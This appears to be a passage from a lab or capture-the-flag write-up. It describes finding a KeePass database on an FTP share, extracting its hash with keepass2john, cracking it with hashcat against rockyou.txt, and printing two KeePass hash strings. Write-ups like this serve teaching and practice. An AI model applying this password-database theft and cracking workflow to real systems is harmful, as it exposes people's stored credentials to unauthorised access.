 The wording is ambiguous, so we'll try all three users. The language would suggest that it's Sarah/Tim who will be using the FTP account, but they are asking Rahul to set it up. So we'll try all three, one is bound to work. 

Or none of them work. But then it does give the domain so we should use that somewhere... 

![picard_palm](images/picard.png)

We have one other username to try... #TeamRead

```
 Rahul - please upload the design mock ups to the Intranet folder as 'index.html' using the ftp_user account - I aim to review regularly.
 ```

 `ftp_user`

 PAY ATTENTION! READ THINGS!!

 > Also check your clipboard, the password wasn't working probably due to some errant bad character that was invisible in the terminal. Copy paste directly from the text editor or document and it works fine. Just not from terminal. 

Had a good old mooch around on the FTP once I got the password working and found a KeePass file in `Users/Tim/Files`.  

`keepass2john tim.kdbx > tim.hash`

Modify that because we're going to be using `hashcat` and not `john`. Because I have a gfx card and I intend to use it. 

`hashcat -m 13400 -a 0 -w 1 tim.hash rockyou.txt`

Should take about 20 minutes to crack that on the old 760GTX. 

Once we get something we should then figure out where to use it.

- SharePoint?
- SQL?
- SMB?

(Hashcat let me down on the first run)

After playing around for a little while it turned out that because the FTP server only supports Stream mode (Binary is ideal for this type of transfer) we got chunked data and it screwed our file up. Downloaded it again, got a totally different final block: 

First Download:
```
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f
```

Second Download:
```
tim.new:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```
